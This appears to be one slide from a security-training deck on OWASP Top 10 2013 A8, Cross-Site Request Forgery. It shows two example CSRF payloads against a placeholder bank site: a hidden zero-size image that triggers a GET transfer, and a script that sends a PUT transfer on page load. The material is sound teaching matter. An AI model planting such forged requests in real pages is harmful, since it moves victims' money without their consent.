

OWASP Top 10 2013 A8: Cross-Site Request Forgery (CSRF)

<img src="http://bank.com/transfer.do?acct=MARIA&amount=100000" width="0" height="0" border="0">
<script>
function put() {
	var x = new XMLHttpRequest();
	x.open("PUT","http://bank.com/transfer.do",true);
	x.setRequestHeader("Content-Type", "application/json");
	x.send(JSON.stringify({"acct":"BOB", "amount":100}));
}
</script>
<body onload="put()">

19